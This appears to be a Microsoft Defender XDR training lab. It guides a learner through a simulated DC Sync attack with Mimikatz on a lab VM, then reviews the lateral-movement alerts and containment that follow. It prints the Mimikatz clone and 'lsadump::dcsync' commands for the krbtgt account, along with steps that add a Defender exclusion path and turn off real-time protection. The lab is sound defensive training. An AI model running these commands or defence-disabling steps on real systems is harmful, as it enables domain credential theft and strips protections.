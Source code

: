# Lab 13: Simulate and Detect Lateral Movement Attacks

## Overview

In this lab, you will simulate a Lateral Movement attack using the Mimikatz tool and detect it through Microsoft Defender for Identity. This task should only be performed in a controlled environment, running the attack will trigger Defender’s containment measures, logging you out of the virtual machine and preventing re-login for security reasons.

> **⚠ Important Usage Guidance:** Microsoft Defender for Office 365 may take some time to load certain results or complete specific labs from the backend. This is expected behavior. If the data does not appear after a couple of refresh attempts, proceed with the next lab and return later to check the results..

1. In Azure portal, Search for **Virtual machines (1)** and select **Virtual machines (2)**.

      ![VMrdp](./media/vm.png)

1. Select the virtual machine **s2vm-<inject key="DeploymentID" enableCopy="false" />** from the list.
   
      ![VMrdp](./media/xdr26.png)

1. If the virtual machine is not running, click on **Start** to power it on. Wait until the status changes.

1. At the beginning of the virtual machine page, click on **Connect (1)**, and from the drop-down select **Connect (2)**.

      ![VMrdp](./media/xdr27.png)

1. On the Connect to Virtual Machine page, select RDP, Choose the option to **Download RDP File.**

      ![VMrdp](./media/xdr28upd.png)

      >**Note:** You might see the warning option while downloading the rdp file. please click on **keep.**

1. Open the downloaded RDP file from the downloads.

      ![VMrdp](./media/xdr23.png)

1. Select Connect when prompted. You will get a warning that the .rdp file is from an unknown publisher. This is expected. In the Remote Desktop Connection window, select Connect to continue.

      ![VMrdp](./media/vm8.png)
   
1. In the Windows Security window, select **More Choices.**

      ![VMrdp](./media/xdr24.png)

 1. Then Use a different account. Enter **Username:** <inject key="Labvm Admin Username"></inject> **(1)** and **Password:** <inject key="Labvm Admin Password"></inject> **(2)** and then select **OK (3).**

      ![VMrdp](./media/vm6.png)

1. Select **Yes** to verify the identity of the virtual machine and finish logging on.

      ![VMrdp](./media/vm7.png)

1. You should now be connected to the virtual machine via Remote Desktop.

1. Open **PowerShell (Administrator)** from Windows search.

      ![image](./media/attack1.png)

1. Run the following command to create a folder named `Tools` and add it as an exclusion in Microsoft Defender so that files inside this folder are not scanned.

      ```shell
      New-Item -ItemType Directory -Force -Path "C:\Tools"
      ```

      ```
      Add-MpPreference -ExclusionPath "C:\Tools
      ```

1. Run the below command to download the Mimikatz tool in `C:\Tools` folder.

      ```
      cd C:\Tools
      ```

      ```
      git clone https://github.com/ParrotSec/mimikatz
      ```
    > **Note:** Mimikatz is an open-source tool primarily designed to extract authentication credentials from the memory of Windows operating systems

      ![image](./media/attack13.png)

1. Navigate to the below mentioned directory in Powershell.

      ```powershell
      cd mimikatz\x64
      ```

1. In the same PowerShell session, run the below command to run the mimikatz application

     ```powershell
     mimikatz.exe 
     ```

1. Simulate a DC Sync attack and extract the credentials of the krbtgt account.

      ```shell
      lsadump::dcsync /domain:defenderxdr.internal /user:krbtgt
      ```

      > **Note:** If you see an error message indicating that the command failed, it is due to antivirus, perform the below steps and then run **step 16** again

      > 1. Navigate to Windows Security and click on **Virus & threat protection**.
      ![image](./media/attack1n1.png)

      > 2. Turn off **Real-time protection (1)** and **Cloud-delivered protection (2)**
      ![image](./media/attack1n2.png)

1. Once this command executes, Microsoft Defender’s attack disruption feature will log the user out of the Virtual Machine and prevent them from logging back in. It may take about 10-15 minutes to log out, please wait

1. Now, go back to **svm-<inject key="DeploymentID" enableCopy="false"/>** virtual machine and check your alerts in the Microsoft Defender portal, navigate to **Incidents & alerts** in the left-hand navigation pane.

      ![](./media/E1T3S3upd1.png)

1. Navigate to **Incidents** and review the incident with the tag **Lateral Movement**.

   ![](./media/E1T3S3upd2.png)

1. Click **Alerts** to view the alerts queue.

1. You will find alerts with the below names
     - **Lateral movement using remote logon by contained user blocked**
     - **Lateral movement using RDP blocked**

       ![](./media/E1T3S3upd.png)

      > **Note:** The user will be logged out of the virtual machine as part of the containment measures initiated by the Defender in response to the user's attempted lateral movement attack.

## Review

In this lab, you have completed the following:

- Used the **Mimikatz tool** in PowerShell (Admin) to simulate a **DC Sync attack**.  
- Attempted to extract credentials of the **krbtgt account**.  
- Observed **automatic containment measures** triggered by Microsoft Defender for Identity.  
- Verified generated alerts in the Defender portal for **blocked lateral movement attempts** via remote logon and RDP. 

## You have successfully completed the lab. Click on Next to Continue

  ![Start Your Azure Journey](./media/rd_gs_1_9.png)
